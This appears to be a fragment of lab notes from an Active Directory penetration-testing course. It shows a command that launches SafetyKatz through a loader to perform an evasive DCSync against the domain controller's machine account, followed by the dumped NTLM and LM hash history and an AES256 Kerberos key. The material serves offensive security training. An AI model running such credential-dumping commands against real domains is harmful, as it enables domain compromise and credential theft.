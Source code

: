 `C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\dcorp-dc$" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-dcsync /user:dcorp\dcorp-dc$
[DC] 'dollarcorp.moneycorp.local' will be the domain
[DC] 'dcorp-dc.dollarcorp.moneycorp.local' will be the DC server
[DC] 'dcorp\dcorp-dc$' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : DCORP-DC

** SAM ACCOUNT **

SAM Username         : DCORP-DC$🔑
Account Type         : 30000001 ( MACHINE_ACCOUNT )
User Account Control : 00082000 ( SERVER_TRUST_ACCOUNT TRUSTED_FOR_DELEGATION )
Account expiration   :
Password last change : 2/5/2025 9:02:28 PM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-1000
Object Relative ID   : 1000

Credentials:
  Hash NTLM: 68d6c096c7cfee52a45d6207489526bc🔑
    ntlm- 0: 68d6c096c7cfee52a45d6207489526bc
    ntlm- 1: d79ad890d24d8df4936f85bf11d8fd5b
    ntlm- 2: 22f01da668a849cfc8dd5b0c36ef3ab4
    ntlm- 3: f2180db8f899b59543d56f16bb7cff59
    ntlm- 4: 627ae7e6fd4b72ad1ec9808c773a5a5b
    ntlm- 5: d31bad6c1cf5712baeac4c7b1ae8abd0
    ntlm- 6: 268b8d00e7f18cb0bf68cb2b08345ad3
    ntlm- 7: 9528de61ea331943d6bfc53c869627b3
    ntlm- 8: 68aaa6d7419d74ec06cbd45710a06fbd
    ntlm- 9: 0815b43c065b92dfcc497f0beef12480
    ntlm-10: 915a88647de381e31663e5e4a0939cab
    ntlm-11: 83471b07629c4a77e5514d9754f6b853
    ntlm-12: 77f9b24843b43c08b1a4f6a3bb849b56
    ntlm-13: 3b08222797d52a17c3fe48b370cfc8e1
    ntlm-14: 1be12164a06b817e834eb437dc8f581c
    ntlm-15: 402fa2cfac3e58e2187a056b204d85c5
    lm  - 0: 9574cca8ae4b925cbe3e8b22c9153b16
    lm  - 1: bdceaf0607c329bcbf0562fe750c16d1
    lm  - 2: 5d312b6d9d8cc27597308d349789c002
    lm  - 3: 66970750552174b18bdaa7ecef7c241a
    lm  - 4: e70810c4999d3f485cc9074247d4a343
    lm  - 5: 03a7fa039bd63ef18dd0c6f479d52f57
    lm  - 6: 9c05844298a87c7ad7b6b907cf7c2eea
    lm  - 7: bc56c097d25dc1531bcb56a052011e3f
    lm  - 8: 6cb8d29dfb0efe14f04ee7a795cc3b78
    lm  - 9: 09ba339c8d917936ae43975891101ca6
    lm  -10: 3039abc4b8d398898adf5f396466ac5e
    lm  -11: dad64f9a838fdb0dfff1066092e0726b
    lm  -12: b72a11b827af9320fda43d8356af8479
    lm  -13: 6f1825c909da6a8ccfbbd1f140dda9f0
    lm  -14: b94edbc472b4f5068a4bf9998d5f6048

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALhostdcorp-dc.dollarcorp.moneycorp.local
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : bf32456704e1f1c1abaf07d210514339283201990a128b85d31cea103e7a39c2📌
```